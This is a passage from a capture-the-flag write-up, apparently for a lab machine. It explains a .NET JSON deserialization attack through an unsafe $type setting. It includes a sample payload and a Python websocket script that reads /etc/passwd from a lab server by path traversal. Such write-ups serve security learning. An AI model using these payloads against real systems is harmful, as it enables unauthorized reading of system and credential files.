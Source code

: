 From the 3 main functions, it seems that ReadOrder does check for LFI, so that's not exploitable. WriteOrder does not seem to do much, but RemoveOrder is suspiciously short and does nothing. For our JSON deserialisation exploit, perhaps we should use this as the main function for exploitataion. We know from the main function of the DLL that the code **always deserializes the input we give it no matter what**.

### Deserialization

We know that this is a .NET related JSON deserialisation exploit based on the DLL. This resource was particularly helpful in creating the payload:

{% embed url="https://systemweakness.com/exploiting-json-serialization-in-net-core-694c111faa15" %}

```json
{
  "$type": "System.IO.FileInfo, System.IO.FileSystem",
  "fileName": "test.txt",
  "attributes": 2
}
```

For our payload, we would first need to add the the 'RemoveOrder' function, then nest our payload within it. Since the TypeNameHandling = 4, the `$type` variable has to call the root object's type, in this case it would be `bagel_server.file,bagel` as per the DLL object names.&#x20;

Afterwards, we can call the `ReadFile` function to read whatever file we want.&#x20;

This was my code and output: (took a while of testing)

```python
import websocket,json

ws = websocket.WebSocket()
ws.connect("ws://10.129.150.229:5000/")
order = {"RemoveOrder":{"$type":"bagel_server.File,bagel", "ReadFile":"../../../../etc/passwd"}}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
print(result)
```

<figure><img src="../../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>
